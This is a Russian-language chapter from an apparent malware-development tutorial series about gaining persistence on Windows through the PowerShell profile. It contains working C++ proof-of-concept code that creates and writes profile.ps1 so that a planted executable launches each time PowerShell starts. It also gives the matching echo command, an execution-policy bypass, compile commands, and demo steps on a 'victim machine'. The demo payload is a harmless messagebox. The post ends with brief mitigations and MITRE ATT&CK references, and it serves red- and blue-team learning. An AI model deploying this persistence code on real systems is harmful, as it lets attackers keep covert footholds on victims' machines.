 \newpage
\subsection{77. Разработка вредоносного ПО: закрепление (persistence) - часть 11. Профиль PowerShell. Простой пример на C++.}

﷽

![pers](./images/70/2022-09-20_08-06.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных методов персистентности вредоносного ПО: через профиль PowerShell.    

### профиль PowerShell

Профиль PowerShell - это скрипт PowerShell, который позволяет системным администраторам и пользователям настраивать свою среду и выполнять определённые команды при запуске сессии Windows PowerShell.     

Скрипт профиля PowerShell хранится в папке `WindowsPowerShell`:    

![pers](./images/70/2022-09-20_08-29.png){width="80%"}    

Добавим следующий код в файл профиля текущего пользователя, который будет выполняться при каждом запуске консоли PowerShell пользователем:

`Z:\2022-09-20-malware-pers-11\hack.exe`    

Я продемонстрирую этот метод на практическом примере, чтобы всё стало понятно.    

### практический пример

Сначала создадим наш "вредоносный" файл:     

```cpp
/*
hack.cpp
вредоносное приложение для Windows
персистентность через профиль PowerShell
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как обычно, это просто "meow-meow" messagebox.    

Компилируем:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/70/2022-09-20_08-07.png){width="80%"}    

Запускаем на машине жертвы для проверки корректности:    

![pers](./images/70/2022-09-20_09-03.png){width="80%"}    

Теперь применяем этот простой "трюк":   

```powershell
echo Z:\2022-09-20-malware-pers-11\hack.exe > \
"%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```

И наконец, запускаем PowerShell:    

```powershell
powershell -executionpolicy bypass
```

![pers](./images/70/2022-09-20_08-16.png){width="80%"}    

![pers](./images/70/2022-09-20_08-18.png){width="80%"}    

Как видно, наш вредоносный код выполняется при запуске PowerShell, и родительским процессом для messagebox является PowerShell. =^..^=    

Я создал простой PoC-код для автоматизации этого процесса:    

```cpp
/*
pers.cpp
windows persistence via Powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#include <stdio.h>
#include <strsafe.h>
#include <iostream>

int main(int argc, char* argv[]) {
  char path[MAX_PATH];
  char *homepath = getenv("USERPROFILE");
  char pspath[] = "\\Documents\\windowspowershell";
  char psprofile[] = "\\profile.ps1";
  char evil[] = "Z:\\2022-09-20-malware-pers-11\\hack.exe";
  DWORD evilLen = (DWORD)strlen(evil);

  StringCchCopy(path, MAX_PATH, homepath);
  StringCchCat(path, MAX_PATH, pspath);
  BOOL wd = CreateDirectoryA(path, NULL);
  if (wd == FALSE) {
    printf("unable to create dir: %s\n", path);
  } else {
    printf("successfully create dir: %s\n", path);
  }

  StringCchCat(path, MAX_PATH, psprofile);
  HANDLE hf = CreateFile(
    path,
    GENERIC_WRITE,
    0,
    NULL,
    CREATE_NEW,
    FILE_ATTRIBUTE_NORMAL,
    NULL
  );

  if (hf == INVALID_HANDLE_VALUE) {
    printf("unable to create file: %s\n", path);
  } else {
    printf("successfully create file: %s\n", path);
  }

  BOOL wf = WriteFile(hf, evil, evilLen, NULL, NULL);
  if (wf == FALSE) {
    printf("unable to write to file %s\n", path);
  } else {
    printf("successfully write to file evil path: %s\n", evil);
  }

  CloseHandle(hf);
  return 0;
}
```

Логика проста: этот скрипт просто создает папку профиля, если ее нет, затем создает файл профиля и обновляет его.    

### демонстрация

Давайте посмотрим, как это работает. Компилируем наш PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/70/2022-09-20_08-07_1.png){width="80%"}    

Запускаем его на машине жертвы:    

```powershell
.\pers.exe
```

![pers](./images/70/2022-09-20_08-09.png){width="80%"}    

![pers](./images/70/2022-09-20_08-11.png){width="80%"}    

А теперь запускаем сеанс PowerShell:        

![pers](./images/70/2022-09-20_08-51.png){width="80%"}    

Если проверим через Process Hacker:     

![pers](./images/70/2022-09-20_08-53.png){width="80%"}    

`powershell.exe` снова является родительским процессом, как и ожидалось.     

Как видно, всё работает идеально! =^..^=    

Однако есть один нюанс. Если PowerShell запускается без режима обхода политики выполнения, этот метод персистентности не сработает:    

![pers](./images/70/2022-09-20_09-05.png){width="80%"}    

Кроме того, существует четыре места, в которых можно злоупотребить профилем PowerShell, в зависимости от имеющихся привилегий:   

```powershell
$PROFILE | select *
```

![pers](./images/70/2022-09-20_09-08.png){width="80%"}    

Хранение произвольных инструкций в скрипте профиля PowerShell предоставляет множество возможностей для выполнения кода. Чтобы избежать зависимости от запуска PowerShell пользователем, можно использовать запланированное задание, которое запускает PowerShell в определённое время.      

### способы защиты

Принудительное выполнение только подписанных PowerShell-скриптов. Подписывайте профили, чтобы избежать их модификации. Также можно полностью отказаться от профилей PowerShell, если они не нужны, используя флаг `-No-Profile`.    

Этот метод персистентности используется группой [Turla](https://attack.mitre.org/groups/G0010/) в реальных атаках.    

Надеюсь, этот пост поможет специалистам синей команды лучше понять данную технику и добавит новый инструмент в арсенал красных команд.

[Microsoft PowerShell profiles](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.2)       
[MITRE ATT&CK. Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)     
[Turla](https://attack.mitre.org/groups/G0010/)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-09-20-malware-pers-11)    
